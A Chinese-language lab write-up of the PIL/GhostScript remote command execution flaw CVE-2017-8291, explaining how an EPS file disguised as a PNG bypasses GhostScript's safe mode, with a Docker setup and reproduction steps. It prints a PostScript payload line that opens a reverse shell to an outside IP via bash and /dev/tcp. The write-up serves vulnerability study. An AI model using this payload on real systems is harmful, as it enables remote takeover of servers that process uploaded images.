

# Python PIL 远程命令执行漏洞 CVE-2017-8291

## 漏洞描述

Python 中处理图片的模块 PIL（Pillow），因为其内部调用了 GhostScript 而受到 GhostButt 漏洞（CVE-2017-8291）的影响，造成远程命令执行漏洞。

参考阅读：

- http://blog.neargle.com/2017/09/28/Exploiting-Python-PIL-Module-Command-Execution-Vulnerability/

## 漏洞原理

PIL 内部根据图片头（Magic Bytes）判断图片类型，如果发现是一个 eps 文件（头为 `%!PS`），则分发给 `PIL/EpsImagePlugin.py` 处理。

在这个模块中，PIL 调用了系统的 gs 命令，也就是 GhostScript 来处理图片文件：

```python
command = ["gs",
            "-q",                         # quiet mode
            "-g%dx%d" % size,             # set output geometry (pixels)
            "-r%fx%f" % res,              # set input DPI (dots per inch)
            "-dBATCH",                    # exit after processing
            "-dNOPAUSE",                  # don't pause between pages,
            "-dSAFER",                    # safe mode
            "-sDEVICE=ppmraw",            # ppm driver
            "-sOutputFile=%s" % outfile,  # output file
            "-c", "%d %d translate" % (-bbox[0], -bbox[1]),
                                            # adjust for image origin
            "-f", infile,                 # input file
            ]

# 省略判断是GhostScript是否安装的代码
try:
    with open(os.devnull, 'w+b') as devnull:
        subprocess.check_call(command, stdin=devnull, stdout=devnull)
    im = Image.open(outfile)
```

虽然设置了 `-dSAFER`，也就是安全模式，但因为 GhostScript 的一个沙盒绕过漏洞（GhostButt CVE-2017-8291），导致这个安全模式被绕过，可以执行任意命令。

另外，截至目前，GhostScript 官方最新版 9.21 仍然受到这个漏洞影响，所以可以说：只要操作系统上安装了 GhostScript，我们的 PIL 就存在命令执行漏洞。

## 环境搭建

Vulhub 运行环境：

```
docker-compose up -d
```

运行后，访问 `http://your-ip:8000/` 即可看到一个上传页面。

## 漏洞复现

正常功能是我们上传一个 PNG 文件，后端调用 PIL 加载图片，输出长宽。但我们可以将可执行命令 EPS 文件后缀改成 PNG 进行上传，因为后端是根据文件头来判断图片类型，所以无视后缀检查。

比如 [poc.png](https://github.com/vulhub/vulhub/blob/master/python/PIL-CVE-2017-8291/poc.png)，进行上传，即可执行 `touch /tmp/awesome_poc`。


将 `touch /tmp/awesome_poc` 命令改为反弹 shell 命令：

```
currentdevice null false mark /OutputFile (%pipe%bash -c "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1")
```

成功接收反弹 shell：


